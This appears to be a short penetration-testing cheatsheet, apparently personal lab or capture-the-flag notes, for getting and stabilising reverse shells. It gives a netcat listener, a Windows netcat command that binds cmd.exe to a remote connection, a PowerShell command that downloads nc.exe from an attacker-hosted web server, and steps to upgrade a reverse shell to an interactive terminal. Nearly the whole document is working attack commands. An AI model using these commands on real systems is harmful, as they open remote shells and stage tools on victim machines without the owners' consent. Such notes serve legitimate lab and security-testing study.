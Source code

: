 # Cheatsheet

Listen locally with nc
```
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe"
```

## Interactive terminal

Using Python for a psuedo terminal

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```